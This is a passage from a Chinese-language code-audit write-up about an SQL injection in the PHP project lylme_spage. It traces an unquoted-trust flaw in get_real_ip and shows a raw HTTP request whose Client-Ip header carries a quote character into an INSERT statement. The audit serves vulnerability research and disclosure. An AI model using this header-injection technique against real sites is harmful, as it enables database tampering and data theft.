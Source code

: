 ```plain
$sql = "INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, '".$name."', '".$url."', '".$group_id."', '".$icon."', '".$userip."', '".$date."', '".$status."');";
```

虽然SQL语句将变量直接拼接，但是没有例外的惊喜——可控变量都被单引号括起来了，不过我们看到其中一个变量`$userip`,这个变量也是代码审计中容易被忽略的，特别是被它赋值的函数名字 `get_real_ip` 所迷惑，函数暗示用于获取用户真实IP，跟进去看看其具体实现。

函数所处文件位置: `include/function.php`

```plain
//获取客户端IP
function get_real_ip() {
    $real_ip = '';
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $arr = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $pos = array_search('unknown', $arr);
        if (false !== $pos) {
            unset($arr[$pos]);
        }
        $real_ip = trim($arr[0]);
    } elseif (isset($_SERVER['HTTP_CLIENT_IP'])) {
        $real_ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (isset($_SERVER['REMOTE_ADDR'])) {
        $real_ip = $_SERVER['REMOTE_ADDR'];
    }
    return $real_ip;
}
```

首先函数通过获取`X_FORWARDED_FOR`来获取用户真实IP，那么是不是SQL注入就稳了呢？先别高兴太早，如果我们构造`X_FORWARDED_FOR`来注入的话，会没办法去证明危害，原因在于开发者处理的时候，考虑了`X_FORWARDED_FOR`可能存在以`,`分割多个值的情况，选择只取以`,`分割的数组的第一个IP,这样子会导致我们没办法调用任何一个需要传递两个参数以上的函数，因为`,`是没办法取到的了，这在`INSERT`的SQL注入类型基本是无解的。

不过这个函数写的非常有趣，非常合理也非常不安全，开发者选择第二个方案利用`HTTP_CLIENT_IP`，实际上这个值是可以受HTTP头控制的，至此完成无限制SQL注入漏洞的发现。

```plain
POST /lylme_spage-master/apply/index.php?submit=post HTTP/1.1
Host: localhost:7777
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 68
Client-Ip: 127.0.0.1'
Connection: close
Cookie: Hm_lvt_3824e56a483ef95673d119166354712c=1683402807,1683697221,1683715543,1683916624; csrftoken=K667NTcmO0EB6uHLMRWWV5WRYOpNr3UsU3GckzwMR31xBv0f8B0lr7E7x1njt1Vg; XDEBUG_SESSION=PHPSTORM; PHPSESSID=2157227620502bce8ccaded635165ba2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

url=http%3A%2F%2Fqq.com1213&name=test&group_id=1&icon=&authcode=1206
```

加上单引号报错
